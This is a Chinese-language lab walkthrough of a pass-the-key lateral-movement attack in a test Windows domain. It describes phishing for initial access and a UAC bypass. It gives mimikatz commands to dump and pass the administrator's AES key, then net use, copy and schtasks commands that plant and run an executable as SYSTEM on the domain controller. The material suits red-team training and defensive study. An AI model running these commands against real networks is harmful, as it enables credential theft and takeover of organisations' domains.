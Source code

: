 ### 实验前提

我们下载已经控制了2012-2主机，发现他是mb用户登录系统，通过抓取密码发现*域管账号存在内存中*,但是没有明文，PTH攻击也失效，这个时候采用PTK攻击

### 实验步骤

#### 使用钓鱼或者其他的方式进行远控

![image-20230308115256083](https://img.gyxnb.top/img/image-20230308115256083.png)

#### 绕过uac进行提权

![image-20230308115341039](https://img.gyxnb.top/img/image-20230308115341039.png)

![image-20230308115431504](https://img.gyxnb.top/img/image-20230308115431504.png)

#### 抓取密码

```
mimikatz sekurlsa::ekeys
```

![image-20230308115517204](https://img.gyxnb.top/img/image-20230308115517204.png)



### 传递key

```
mimikatz sekurlsa::pth /user:administrator /domain:hack.com /aes256:6c3f838f27a28c20efe744208e13b9d4b8c57efeae3a5ec902564f6bfc917b33
```

![image-20230308124949687](https://img.gyxnb.top/img/image-20230308124949687.png)

### 登录到机器然后执行命令上线

```
dir \\dc.hack.com\c$
```

![image-20230308125022568](https://img.gyxnb.top/img/image-20230308125022568.png)

### 计划任务等等之类的

```
net use \\dc.hack.com
copy C:\Users\mb\Desktop\1.exe \\dc.hack.com\C$
schtasks /create /s dc.hack.com /tn test /sc onstart /tr C:\1.exe /ru system /f
schtasks /run /s dc.hack.com /i /tn "test"
```

# pass the ticket票据传递攻击(PTT)横向攻击
